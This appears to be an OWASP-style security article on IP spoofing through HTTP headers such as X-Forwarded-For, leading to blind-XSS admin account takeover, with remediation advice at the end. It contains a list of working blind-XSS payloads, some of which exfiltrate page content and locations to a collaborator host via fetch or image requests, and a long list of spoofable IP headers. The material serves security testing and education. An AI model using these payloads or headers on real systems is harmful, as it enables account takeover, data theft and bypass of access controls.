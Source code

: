 ```yaml
---
layout: col-sidebar
title: IP Spoofing via HTTP Headers
author: Ahmadreza Parsizadeh
contributors: AREX
tags: [attack, IP Spoofing, XSS, Admin Account Take Over]
---
```


{% include writers.html %}

## Description

In the realm of web security, understanding the nuances of IP spoofing becomes paramount as malicious actors exploit vulnerabilities in HTTP headers to deceive systems. By examining the risks associated with trusting headers like X-Forwarded-For, The potential consequences will be unveiled and offer insights into securing applications against these threats.

## Significance of Client IP Addresses

Client IP addresses often serve as crucial identifiers in web applications, influencing access controls and rate limits. Understanding their significance is paramount for evaluating potential vulnerabilities and implementing robust security measures.

### Examples of Access Controls and Rate Limits

1. **Access Controls Based on IP Addresses:**
   - *Scenario:* An application restricts access to sensitive administrative functionality only to clients connecting from the local IP address of the server.
   - *Implementation:* The application checks the source IP address of incoming requests and grants access only if the address matches the server's local IP.
2. **Rate Limits Based on IP Addresses:**
   - *Scenario:* A login system allows a limited number of failed login attempts from each unique IP address within a specified timeframe.
   - *Implementation:* The application tracks failed login attempts along with the corresponding IP addresses. If the allowed limit is exceeded, further login attempts from that IP are temporarily restricted.

### Web Application Impact

#### Impact on User Activity Logs

IP spoofing can significantly impact web applications that log user activity, leading to potential inaccuracies in historical data and log poisoning. Malicious actors exploiting IP spoofing may manipulate logs, making it challenging to trace legitimate and malicious actions accurately.

#### Admin Account Takeover using Blind XSS

1. **Scenario:**
    - Malicious actors utilize IP spoofing to inject payloads via HTTP headers, leading to generating inaccurate logs or inject malicious payloads via HTTP headers for achieving Blind XSS to take over the admin's account.

2. **Impact:**
    - Blind-stored XSS attacks allow adversaries to inject malicious scripts into the application's database. When legitimate users access compromised pages, these scripts execute, potentially leading to unauthorized access, data theft, or other malicious activities. For numerous web applications based on their functionality, the admin needs to access the history of login activities and users' IPs will be recorded. The attacker injects some Blind XSS payloads and if the admin portal is vulnerable to XSS, the attacker can hijack the admin's cookies and take over the admin's account.

### Payloads for Blind XSS

```HTML
'"><img src="https://example.burpcollaborator.net/image">

</script><svg/onload='+/"/+/onmouseover=1/+(s=document.createElement(/script/.source), s.stack=Error().stack, s.src=(/,/+/yourcollaboratordomain/).slice(2), document.documentElement.appendChild(s))//'>

[<iframe/srcdoc=”<script/src=//narayananm.xss.ht></script>”>]

'"><img src="https://example.burpcollaborator.net/image-only" onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://"+btoa(document.location)+".example.burpcollaborator.net/image-dns?"'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='fetch("https://example.burpcollaborator.net/image-xss-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})'>

'"><iframe src='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></iframe>

'"><iframe srcdoc='<script>window.location="https://example.burpcollaborator.net/iframe-srcdoc?"+btoa(parent.document.location)</script>'></iframe>

'"><iframe srcdoc='<script>fetch("https://example.burpcollaborator.net/iframe-srcdoc-post",{method:"POST",body:btoa(parent.document.body.innerHTML),mode:"no-cors"})</script>'></iframe>

'"><object data='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></object>

<input onfocus='fetch("https://example.burpcollaborator.net/imput-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})' autofocus>

'"><script src=https://example.burpcollaborator.net/script-tag></script>

'"><script type="text/javascript" src="https://example.burpcollaborator.net/script-tag-type"></script>

'"><script type="module" src="https://example.burpcollaborator.net/script-tag-module"></script>

'"><script nomodule src="https://example.burpcollaborator.net/script-tag-nomodule"></script>

javascript:window.location="https://example.burpcollaborator.net/js-scheme?"+btoa(document.location)

javascript:fetch("https://example.burpcollaborator.net/js-scheme-fetch?"+btoa(document.location))
```

### Headers for IP Spoofing

```HTTP
CACHE_INFO: 127.0.0.1
CF_CONNECTING_IP: 127.0.0.1
CF-Connecting-IP: 127.0.0.1
CLIENT_IP: 127.0.0.1
Client-IP: 127.0.0.1
COMING_FROM: 127.0.0.1
CONNECT_VIA_IP: 127.0.0.1
FORWARD_FOR: 127.0.0.1
FORWARD-FOR: 127.0.0.1
FORWARDED_FOR_IP: 127.0.0.1
FORWARDED_FOR: 127.0.0.1
FORWARDED-FOR-IP: 127.0.0.1
FORWARDED-FOR: 127.0.0.1
FORWARDED: 127.0.0.1
HTTP-CLIENT-IP: 127.0.0.1
HTTP-FORWARDED-FOR-IP: 127.0.0.1
HTTP-PC-REMOTE-ADDR: 127.0.0.1
HTTP-PROXY-CONNECTION: 127.0.0.1
HTTP-VIA: 127.0.0.1
HTTP-X-FORWARDED-FOR-IP: 127.0.0.1
HTTP-X-IMFORWARDS: 127.0.0.1
HTTP-XROXY-CONNECTION: 127.0.0.1
PC_REMOTE_ADDR: 127.0.0.1
PRAGMA: 127.0.0.1
PROXY_AUTHORIZATION: 127.0.0.1
PROXY_CONNECTION: 127.0.0.1
Proxy-Client-IP: 127.0.0.1
PROXY: 127.0.0.1
REMOTE_ADDR: 127.0.0.1
Source-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Via: 127.0.0.1
WL-Proxy-Client-IP: 127.0.0.1
X_CLUSTER_CLIENT_IP: 127.0.0.1
X_COMING_FROM: 127.0.0.1
X_DELEGATE_REMOTE_HOST: 127.0.0.1
X_FORWARDED_FOR_IP: 127.0.0.1
X_FORWARDED: 127.0.0.1
X_IMFORWARDS: 127.0.0.1
X_LOCKING: 127.0.0.1
X_LOOKING: 127.0.0.1
X_REAL_IP: 127.0.0.1
X-Backend-Host: 127.0.0.1
X-BlueCoat-Via: 127.0.0.1
X-Cache-Info: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: 127.0.0.1, 127.0.0.1, 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-From-IP: 127.0.0.1
X-From: 127.0.0.1
X-Gateway-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Ip: 127.0.0.1
X-Original-Host: 127.0.0.1
X-Original-IP: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originally-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyMesh-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-True-Client-IP: 127.0.0.1
XONNECTION: 127.0.0.1
XPROXY: 127.0.0.1
XROXY_CONNECTION: 127.0.0.1
Z-Forwarded-For: 127.0.0.1
ZCACHE_CONTROL: 127.0.0.1
```

## Remediation

1. **Validate and Sanitize Input:**
    - Implement strict input validation to ensure that client-provided data, including headers, is legitimate.
    - Sanitize input to remove potentially harmful content.

2. **Use Secure Protocols:**
    - Enforce the use of secure communication protocols (HTTPS) to protect against man-in-the-middle attacks.

3. **Implement Rate Limiting and Access Controls:**
    - Diversify access controls and rate limiting mechanisms beyond relying solely on client IP addresses.

4. **Logging Best Practices:**
    - Employ logging best practices to detect and respond to potential IP spoofing incidents.
    - Regularly review and analyze logs to identify suspicious activities.

5. **Educate Development Teams:**
    - Provide training to development teams on secure coding practices, emphasizing the risks associated with trusting client-provided data.

By adopting these remediation measures, organizations can bolster their defenses against IP spoofing attacks facilitated through HTTP headers, fortifying their web applications against potential threats.

